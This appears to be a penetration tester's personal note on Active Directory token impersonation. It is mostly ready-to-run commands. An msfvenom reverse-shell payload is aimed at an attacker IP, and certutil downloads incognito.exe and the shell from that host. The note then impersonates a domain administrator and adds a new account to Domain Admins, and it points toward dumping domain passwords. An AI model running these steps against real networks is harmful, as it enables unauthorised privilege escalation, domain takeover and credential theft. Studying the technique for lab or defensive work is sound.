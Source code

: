 -- -
A user may have access to delegate tokens to be able to impersonate another user or system in AD. We can try to list out available delegate tokens for one or more users and see if it allows us to move laterally or vertically using a delegate token
##### Definition
Tokens are temporary keys that allow you to access a system/network resource w/o having to provide credentials each time you access something. Like a cookie for computers in AD. 
#### Types:
- Delegate - created for logging into a machine/RDP. **Target**
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script. 
##### Steps
1. Get shell on machine
2. List Tokens
3. Impersonate another user (domain admin)
4. Add new user to new group (domain admins)
5. Compromise DC
### "manual" exploit
If you don't have `incognito.exe`, then you can find a precompiled version [here](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe) or to compile from source, the repo is [here](https://github.com/milkdevil/incognito2?tab=readme-ov-file).
#### Prepare rev shell
You will get an impersonation elevated shell using this reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=9001 -a x64 --platform Windows -f exe -o shell.exe
```
#### File transfer
File transfer over the executables onto the victim Windows host
```powershell
certutil -urlcache http://<attack ip>/incognito.exe incognito.exe
certutil -urlcache http://<attack ip>/shell.exe shell.exe
```
#### Impersonation attack
Make sure to have a netcat listener listening on `9001` or whatever LPORT you set on the rev shell.
```powershell
# list available dleegate tokens
incognito.exe list_tokens -u

# create impersonation reverse shell
incognito.exe execute -c "<domain>/<user>" .\shell.exe
incognito.exe execute -c "MARVEL/administrator" .\shell.exe
```
Now go to the below section "Post-Impersonate" for creating yourself a user in Domain Admins group or other group or other exploit. 
#### resource
- Vector outlined here: [Juggernaut exploit steps](https://juggernaut-sec.com/lateral-movement-token-impersonation/#Impersonating_the_Domain_Admin_with_incognitoexe)
- [Code your own](https://www.insecure.in/blog/token-impersonation-without-metasploit)
### Metasploit Impersonate
#### Get Shell
[[Dark Arts/Active Directory/Post Breach/Tools/Attacks/metasploit]]
![[Dark Arts/Active Directory/Post Breach/Tools/Attacks/metasploit#^66f29a]]
#### Impersonate User
[[Dark Arts/Active Directory/Post Breach/Tools/Attacks/metasploit]]
![[Dark Arts/Active Directory/Post Breach/Tools/Attacks/metasploit#^c51a79]]

### Post-Impersonate
#### Add new user to domain admins
obviously, you can add the user to whatever group the user has
```powershell
# Create new user and add to the current domain
net user /add <new username> <new password> /domain
nnet user /add hawkeye Password1@ /domain

# Add new user to desired group, in this case domain admins
net group "<domain group>" <user> /ADD /DOMAIN
net group "Domain Admins" hawkeye /ADD /DOMAIN
```
#### Compromise
From here, you have another account to play with, so loop back to other attacks:
[[Dark Arts/Active Directory/Post Breach/Attacks/Kerberoasting|Kerberoasting]]
[[Hacking Scratch/Mitigations/Active Directory/Pass Attacks|Pass Attacks]]
[[Dark Arts/Active Directory/Post Breach/Attacks/Token Impersonation]]

If you add the new user to domain admins, you can try to get all a password dump of the entire domain using [[Dark Arts/Active Directory/Post Breach/Tools/Attacks/secretsdump|secretsdump]] or DCSync or whatever you want. 